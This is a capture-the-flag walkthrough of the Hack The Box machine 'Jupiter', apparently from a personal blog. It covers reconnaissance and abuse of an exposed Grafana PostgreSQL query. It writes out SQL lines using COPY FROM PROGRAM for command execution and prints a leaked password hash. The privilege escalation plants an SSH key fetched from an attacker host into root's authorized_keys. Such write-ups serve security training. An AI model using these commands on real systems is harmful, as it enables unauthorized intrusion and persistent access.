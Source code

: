 ```yaml
---
title: Jupiter Report
date: 2023-09-09 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, PostgreSQL]

img_path: /assets/img/htb/writeups/jupiter
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.216/32 (Linux)

**TCP Nmap scan:** 65,535 ports

![](nmap_all_ports_TCP.png)

* **Open ports**:
	* **22/ssh**:
		* Banner grabbing
			* Version: OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
				* [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			* Codename: jammy [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			* CVEs Version: [https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:8.9p1](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:8.9p1)
		* Valid credentials: None
	
	 * **80/http**:
		* Banner grabbing
			![](http_banner_grabbing_nc.png)
			* Resolving to Local DNS server: http://jupiter.htb
				![](http_banner_grabbing_ww.png.png)
				* Firefox
					![](http_firefox_home_page.png)
				* Technologies
					* HttpServer: Nginx/1.18.0 (Ubuntu/Linux)
						* Version vulns: [https://www.cybersecurity-help.cz/vdb/nginx/nginx/1.18.0/](https://www.cybersecurity-help.cz/vdb/nginx/nginx/1.18.0/)
						* Stable version: 1.24.0 [https://nginx.org/en/download.html](https://nginx.org/en/download.html)
					* JQuery/3.3.1
						* Version vulns: [https://security.snyk.io/package/npm/jquery/3.3.1](https://security.snyk.io/package/npm/jquery/3.3.1)
						* Stable version: 3.7.0 (May 11, 2023)
			* Url Scrapping
				![](http_basic_url_scrapping_curl.png)
			* Subdomain enumeration
				![](subdomain_enumeration.png)
				* New subdomain: http://kiosk.jupiter.htb
					* Firefox (Moons and some tables)
					![](http_kiosk_subdomain_home_page.png)
					* Technologies
						* [Grafana v9.5.2](https://grafana.com/docs/grafana/v9.5/) (open source analytics & monitoring solution for every database)
							* Version vulns: None
							* Stable version: 10.1.1 [https://grafana.com/grafana/download](https://grafana.com/grafana/download)
							* **API**: [https://grafana.com/docs/grafana/latest/developers/http_api/](https://grafana.com/docs/grafana/latest/developers/http_api/)
						* Go 1.20.4
						* Angular 1.8.3
						* PostgreSQL 

## **Vulnerability Assesment**

* * *
* * *

* Burpsuite proxy (home)
	![](http_kiosk_api_query.png)
	* Exposed Grafana API query (postgres):
		* Version: select version() [PostgreSQL 14.8]
			* Credentials: grafana_viewer:SCRAM-SHA-256\$4096:K9IJE4h9f9+tr7u7AZL76w\==\$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
			* Current user: **grafana_viewer**
			* Permisions query: SELECT current_setting('is_superuser'); = on
				* **When can read wiles or execute commands**
				![](super_user_priv.png)
				+ Postgres roles: [https://www.postgresql.org/docs/current/role-attributes.html](https://www.postgresql.org/docs/current/role-attributes.html)
				+ Postgres pentesting: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-with-postgresql-languages](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-with-postgresql-languages)

## **Exploitation**

* * *
* * *

* PostgreSQLi
	* DROP TABLE IF EXISTS cmd_rce;
	* CREATE TABLE cmd_rce(cmd_out text);
	* COPY cmd_rce FROM PROGRAM 'id';
	* SELECT * FROM cmd_rce;
		![](postgrsql_poc.png)

## **Post-exploitation**

* * *
* * *

* System User Shell (postgress)
	* Enumeration
		* Process (pspy.sh)
			* Juno user cron job
			![](pspy_process.png)
			* Shadow simulation (/home/juno/shadow-simulation.sh)			
				![](shadow_simulation_mean.png)
				* [Shadow](https://shadow.github.io/docs/guide/design_2x.html) directly **executes real, unmodified application binaries natively in Linux as standard OS processes** (using `vfork()` and `execvpe()`): we call these processes executed by Shadow _managed processes_.
				* Example: (Basic File Transfer)
					![](shadow_simulation.png)
				* We have write access to **network-simulation.yml** (-rw-rw-rw- 1 juno juno 815 Mar  7  2023 /dev/shm/network-simulation.yml)
* Juno user
	* Enumeration
		* Process (jovian   /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb)
		* Juno group: science
			* Group permissions: drwxrwx--- 4 jovian **science** 4096 May  4 18:59 /opt/solar-flares
		* Jupyter Notebook is running on default port 8888
			* Access with Local Port Forwarding in SSH
				* Access token Enabled
			* Searchings recent logs  (**Token leaked**)
				![](token_logs.png)
			* Jovian JUpyter Notebookacces (Free Remote code execution)
* Jovian user
	* Enumeration
		* Binary execution policy ((ALL) NOPASSWD: /usr/local/bin/sattrack)
			* [Sattrack](https://github.com/arf20/arftracksat): Satellite tracking software for linux
			* Documentation options
				![](sattrack_docs.png)
				* tlesources:  A array of URLs to curl get into tleroot
				* tleroot: Location to get and load TLE files
				* tlefile: TLE filename to load from tleroot

## **Lateral movement**

* * *
* * *

* Pivot to **Juno user** (network-simulation.yml)
	![](juno_config_suid.png)
	![](juno_shell.png)
	* Add our id_rsa.pub to juno authorized keys nad log with ssh (Persistence)
* Pivot user Jovian (Jupyter notebook access)
	![](jupyter_notebook_rce.png)
	![](jovian_shell.png)
* Pivot to Root
	* Request our id_rsa.pub to root authorized_keys file
		*  tlesources:  http://10.10.15.5/id_rsa.pub
		* tleroot: /root/.ssh
		* tlefile: authorized_keys
		![](sattrack_conf.png)
		![](root.png)

## **Proof of concept**

* * *
* * *

* Postgres RCE script [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Jupiter)
	![](postres_shell.png)
* Juno RCE .yaml
	
	![](network_yml_poc.png)
	![](juno_rce_poc.png)
